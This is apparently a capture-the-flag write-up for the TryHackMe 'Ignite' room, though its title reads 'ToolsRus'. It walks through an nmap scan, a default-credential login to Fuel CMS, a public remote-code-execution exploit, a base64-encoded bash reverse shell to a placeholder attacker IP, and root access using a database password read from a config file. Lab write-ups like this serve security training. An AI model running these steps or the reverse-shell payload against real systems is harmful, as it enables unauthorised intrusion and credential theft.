 # THM: ToolsRus

| Stat | Value |
| ---------- | -------------------------------------------- |
| Image | <img src="../../images/write_ups/try_hack_me/ignite/ignite.png" alt="Ignite" width="90"/> |
| Room | Ignite |
| URL | https://tryhackme.com/room/ignite |
| Difficulty | Easy |

## Concepts/Tools Used

- [netcat](../../tools/netcat.md)
- [nmap](../../tools/nmap.md)
- [Searchsploit](../../tools/searchsploit.md)
- Base64 Encoding

## Room Description

A new start-up has a few issues with their web server.

## Process

Once the machine starts up I save the machine's ip address to my host file so that I can type `target.thm` instead of an ip address.

I run nmap to see what ports are open:

```bash
$ nmap -T4 -n -sC -sV -Pn -p- target.thm
Starting Nmap 7.80 ( https://nmap.org ) at 2025-06-17 06:00 BST
Nmap scan report for target.thm (10.10.56.91)
Host is up (0.00014s latency).
Not shown: 65534 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 1 disallowed entry 
|_/fuel/
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Welcome to FUEL CMS
MAC Address: 02:4F:B3:1C:25:11 (Unknown)
```

I notice that an http server is running on port 80 and so I take a look at the site with Firefox.

![Ignite Homepage](../../images/write_ups/try_hack_me/ignite/homepage.png)

The site is using the Fuel CMS version 1.4 software. Near the bottom it mentions that the default username and password are admin:admin.

The nmap scan above mentioned the /fuel/ directory. When I browse that page I notice that it is a login page for the Fuel CMS.

![Fuel CMS Login Page](../../images/write_ups/try_hack_me/ignite/login.png)

I use the credentials found earlier, and I am in.

## Getting a Foothold

I looked around for a place where I could inject PHP code and run a remote shell. I was unable to find anything and so I ran the following command to see if I could find an exploit in Fuel CMS:

```bash
$ searchsploit fuel cms 1.4
---------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                              |  Path
---------------------------------------------------------------------------- ---------------------------------
fuel CMS 1.4.1 - Remote Code Execution (1)                                  | linux/webapps/47138.py
Fuel CMS 1.4.1 - Remote Code Execution (2)                                  | php/webapps/49487.rb
Fuel CMS 1.4.1 - Remote Code Execution (3)                                  | php/webapps/50477.py
Fuel CMS 1.4.13 - 'col' Blind SQL Injection (Authenticated)                 | php/webapps/50523.txt
Fuel CMS 1.4.7 - 'col' SQL Injection (Authenticated)                        | php/webapps/48741.txt
Fuel CMS 1.4.8 - 'fuel_replace_id' SQL Injection (Authenticated)            | php/webapps/48778.txt
---------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

I start at the top of the list with 47138 and copy it to my current directory using the following command:

```bash
$ searchsploit -m 47138
```

I look at the script and see that it is for python 2 (python3 requires the print function to have parentheses around what gets printed). I make two alterations to the script:

- The url variable on line 14 gets updated from "http://127.0.0.1:8881" to "http://target.thm".
- The proxy variable on line 25 gets updated from {"http":"http://127.0.0.1:8080"} to {}.

I run the script with the following command:

```bash
$ python 47138.py
cmd:whoami
systemwww-data

<div style="...
```

I now have remote code execution on the machine. Now I run a few commands to get the contents of the flag.txt file:

```bash
cmd:ls -lha /home
systemtotal 12K
drwxr-xr-x  3 root     root     4.0K Jul 26  2019 .
drwxr-xr-x 24 root     root     4.0K Jul 26  2019 ..
drwx--x--x  2 www-data www-data 4.0K Jul 26  2019 www-data
```

I check what files are in the /home/www-data directory:

```bash
cmd:ls -lha /home/www-data
systemtotal 12K
drwx--x--x 2 www-data www-data 4.0K Jul 26  2019 .
drwxr-xr-x 3 root     root     4.0K Jul 26  2019 ..
-rw-r--r-- 1 root     root       34 Jul 26  2019 flag.txt
```

I get the contents of the flag.txt file:

```bash
cmd:cat /home/www-data/flag.txt
systemREDACTED
```

I don't want to keep running commands like this, I need a reverse shell. I setup a listener on my machine in a new terminal with the following command:

```bash
$ nc -lnvp 4444
```

I tried to get a reverse shell using commands [found here](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet).

Each time I ran the commands on the site above, none of them worked. I have used those commands before and I know they are good commands. I remembered that sometimes you need deliver the payload a different way to actually run it.

With that in mind, I base64 encoded the payload so that it could transfer properly. Here is the command I used to encode it:

```bash
echo "bash -i >& /dev/tcp/<attack_box_ip>/4444 0>&1" | base64
YmFzaCAtaSA+JiAvZGV2L3RjcC88YXR0YWNrX2JveF9pcD4vNDQ0NCAwPiYxCg==
```

I am using a command that will not work because the attack_box_ip must be filled in. I took the output of the previous command and ran:

```bash
echo "YmFzaCAtaSA+JiAvZGV2L3RjcC88YXR0YWNrX2JveF9pcD4vNDQ0NCAwPiYxCg==" | base64 -d | bash
```

I have a shell. I'm in!

## Privilege Escalation

I ran my [usual list of commands](../../README.md#linux-privilege-escalation). This didn't yield anything.

I remembered that the homepage of Fuel CMS mentioned where the configuration files were stored. I ran the following command:

```bash
$ cat /var/www/html/fuel/application/config/database.php
```

The output had some interesting lines:

```bash
...
$db['default'] = array(
	'dsn'	=> '',
	'hostname' => 'localhost',
	'username' => 'root',
	'password' => REDACTED,
	'database' => 'fuel_schema',
...
```

Since the username is root. I tried to log in as the root user with that password:

```bash
su root
```

It worked. I'm in! The cursor changed to the # character to let me know that I was root. I ran the following to get the flag:

```bash
# cat /root/root.txt
REDACTED
```
